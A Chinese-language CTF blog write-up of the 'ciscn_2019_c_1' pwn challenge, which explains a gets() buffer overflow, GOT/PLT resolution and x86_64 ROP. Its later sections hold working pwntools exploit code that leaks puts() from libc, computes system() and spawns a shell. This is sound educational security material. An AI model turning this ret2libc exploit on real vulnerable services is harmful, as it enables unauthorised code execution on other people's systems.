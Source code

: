 ```yaml
---
layout: post
title:  "Pwn 入门笔记 ciscn_2019_c_1"
date:   2020-07-14 12:15:38 +0800
---
```


# ciscn_2019_c_1

## Overview
先把程序下载下来检查下是什么情况：x86-64，有符号表，禁止从堆栈执行代码而且没有堆栈保护。
```shell
[root@VM_0_5_centos buuoj]# file ciscn_2019_c_1 
ciscn_2019_c_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=06ddf49af2b8c7ed708d3cfd8aec8757bca82544, not stripped
[root@VM_0_5_centos buuoj]# checksec ciscn_2019_c_1 
[*] '/home/buuoj/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled  # 堆栈不可执行
    PIE:      No PIE (0x400000)
```

## Control flow
这是一个交互式的程序，先询问用户输入一个数字，根据数字的值决定后面的流程：
- 输入1执行加密`encrypt()`；
- 输入2则是一个假的解密；

接着继续询问数字，直到输入3或其他内容引起了异常而退出。至于执行加密操作的`encrypt()`函数，它首先通过`gets()`要求用户输入换行符结束的字符串，然后按照以下逻辑逐个处理并写入原处：

```python
def encrypt2(c):
    if 0x60 < c <= 0x7a:  # 26个小写英文字母
        c = c^0xD
    elif 0x40 < c <= 0x5a:  # 26个大写英文字母
        c = c^0xE
    elif 0x2f < c <= 0x39:  # 0-9
        c = c^0xF
    # 非数字和英文字母不做处理
    return c
```

## Vulnerability

使用`gets`函数有缓冲区溢出的风险，距离返回地址的距离是`0x50+0x8=0x58`个字节长度；但上述`encrypt2()`会破坏输入的payload。网上文章多数认为因为使用了异或，所以再加密一次（拼接payload后加密第一次、程序加密第二次）就能还原payload。这个看法不是十分严谨，因为两次加密之后有部分字节不能还原，可用以下代码验证：

```python
forbidden = {x for x in range(256) if x != encrypt2(encrypt2(x))}
print(f"forbidden={forbidden}")
# 输出 forbidden={115, 109, 78, 48, 49, 50, 51, 52, 53, 80, 81, 82, 83, 85, 112, 114, 118, 113}
```

看得出来，除了 `forbidden`，其它的字符都能得到还原；因此在构造payload的过程要避免上述字符。不过，其实这个程序的执行流程还存在另一个薄弱环节：

```asm
loc_400AB4:
mov     eax, cs:x       ; 全局变量x
mov     ebx, eax
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _strlen
cmp     rbx, rax
jb      loc_4009E7      ; 仅当x小于输入内容的长度才会执行encrypt()
```

`encrypt()`函数内部是逐个处理字符的循环，结束条件是x大于等于`strlen()`；但是x是一个全局变量，每次加密之前没有被置为0。因此为了防止payload被破坏，用户有两个方法可以选择：

1. 输入两次，第二次的长度小于`strlen()`；
2. 输入内容包含`\x00`。

总结下，网上文章能成功的原因有两类，一是payload的每个字节都恰好能被还原；二是直接用`\X00`字节填充到返回地址之前，完全绕过加密逻辑。

## Leak `system()`

不像前面的题目，这里没有现成的`system("/bin/sh")`的调用，IDA的函数列表里面也木有`system`；虽然堆栈不可执行，但是因为有使用到其它libc函数，可以尝试以下办法：

1. 在libc里面找到`system()`和`/bin/sh`的地址；
2. ROP 找到用作 gadgets（有的中文书里面把这个叫做跳板）。

`system()`也是libc里面的函数。对于1，寻找`system()`地址的一般方法是：

1. 获得符号表中另一个 libc 函数的地址；
2. 查找该函数和`system()`在对应版本libc的偏移；
3. 计算装载libc的基址；
4. 计算`system()`的地址。

因为堆栈不可执行，计算地址的过程无法通过payload实现，所以需要输入两次不同的payload，第一次用来计算地址，第二次才是拉起shell。程序使用了libc的`puts()`，所以可以通过`puts()`泄露`system()`的地址。在C代码中，`puts()`的调用经过编译后对应的指令 `call <0x4006e0 >puts@plt`。这个 0x4006e0 不是`puts()`在libc中的地址，而是`puts()`的stub函数在**PLT**中的地址；`puts()`在libc中的地址实际上存储在**GOT**的0x602020处。

### GOT and PLT

libc库的内容是动态装载到进程空间的，里边的函数和变量的地址只能在运行时定位。这里涉及到GOT表(Global offset table, 全局偏移数组)和PLT表(Procedure linkage table, 过程链接表)，[外网文章](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)十分清晰明了地讲述了Linux使用这两个数据结构调用库函数的过程。下面记录一下我对这篇文章的理解。

![GOT and PLT]({{ site.url }}/assets/2020-07-11-got_plt.png)

任何对`puts()`的调用都会跳转到 PLT。与其说PLT是一个表，不如说这是一系列stub函数的集合。stub函数的jmp指令并非直接跳转到参数所表示的地址，而是取得这个地址处存储的值并跳转。在第一次调用`puts()`时，GOT存储stub函数中jmp的下一条指令的地址，导致程序从PLT开始又跳转回到PLT；在定位出`puts()`在libc中的地址之后，程序把地址写回去GOT。后续调用`puts()`仍然需要走到PLT的stub函数，但因为真正的地址已经找到并存储在GOT，可以直接跳转而无需回到PLT。

![Resolved GOT and PLT]({{ site.url }}/assets/2020-07-11-got_plt_resolved.png)

## Payload

### Diffs between x86 and x86_64

在 x86 和 x86_64 两种架构下、ROP 方法的 payload 组织方式有所不同：
- x86 非syscall: 
  - 参数通过栈传递，因此一般无需pop|ret指令；
  - 函数能直接访问在payload中预先防止放置的数据，是因为这数据作为些参数通过ebp被访问，而ebp会在函数prologue中设置
    - prologue: `push ebp;mov ebp, esp`
    - epilogue: `leave;ret`
  - 组织形式：`FUNCTION ADDR` + `RETURN ADDR` + `ARGUMENT_0...N`
- x86_64:
  - 前6个参数依次[通过寄存器传递](https://stackoverflow.com/a/2538212/8706476)： RDI, RSI, RDX, RCX, R8, R9
  - gadget 均包含ret指令；
  - 组织形式：`FUNCTION ADDR` + `GADGET_0 ADDR` + `ARGUMENT_0` + ... + `GADGET_N ADDR` + `ARGUMENT_N` 

### Shell

为了输出`puts()`的地址，可以将`puts()`在GOT中的地址0x602020作为参数、调用`puts()`并打屏。因为amd64下参数一般通过寄存器传递，第一个参数存储在rdi，所以需要找到形如 `pop rdi;ret` 的gadgets地址去覆盖返回地址，紧跟着作为参数的0x602020(GOT)以及ret的返回地址0x4006e0(PLT)。为了能够第二次输入payload，还需要让程序正常地回到main：
```shell
ROPgadget --binary ciscn_2019_c_1 --only 'pop|ret'
# 查找 gadgets
```
```python
#!/usr/bin/python3.6
from pwn import *

elf = ELF("./ciscn_2019_c_1")
proc = process("./ciscn_2019_c_1")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
log.info(f'puts: GOT={hex(puts_got)}; PLT={hex(puts_plt)}')

proc.sendlineafter("choice!\n", "1")
pop_rdi = 0x400c83
payload = b'\x00' * 0x58 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(elf.sym['main'])

proc.sendline(bytes(payload))

log.info(proc.recvuntil(b'Ciphertext\n'))
log.info(proc.recvuntil(b'\n'))

libc_puts = u64(proc.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
log.info(f'puts libc={hex(libc_puts)}')
```

我调试的机器是 CentOS7.7 ，使用 `LibcSearcher` 找不到`puts`为0x6b0对应的libc版本，需要先添加到[libc-database](https://github.com/niklasb/libc-database)

```shell
ldd ciscn_2019_c_1 
# libc.so.6 => /lib64/libc.so.6 (0x00007f6746632000)
python3 -m pip show LibcSearcher | grep Location
# Location: /home/LibcSearcher
cd /home/LibcSearcher/libc-database/
# cd 到LibcSearcher依赖的libc-database目录
./add /lib64/libc.so.6
./find puts 6b0
# 输出对应的libc库的id
```

计算`system()`:

```python
from LibcSearcher import *

obj = LibcSearcher("puts", libc_puts)

libc_base = libc_puts - obj.dump("puts")
libc_sys = libc_base + obj.dump("system")
libc_binsh = libc_base + obj.dump("str_bin_sh")
log.info(f'libc base={hex(libc_base)}; system={hex(libc_sys)}; /bin/sh={hex(libc_binsh)}')
```

拼接payload：

```python
proc.sendlineafter("choice!\n", "1")
payload = b'\x00' * 0x58 + p64(pop_rdi) + p64(libc_binsh) + p64(libc_sys)
proc.sendline(payload)

proc.interactive()
```

上述代码在本地CentOS7.7可以成功拉起shell，然而拉到线上就 segfault. 查阅网上资料发现这是因为Ubuntu18调用system之前会检查栈顶是否对齐16字节，要加上一个ret(相当于加8字节)去尝试。完整的代码在[这里]({{ site.url }}/assets/ciscn_2019_c_1.py)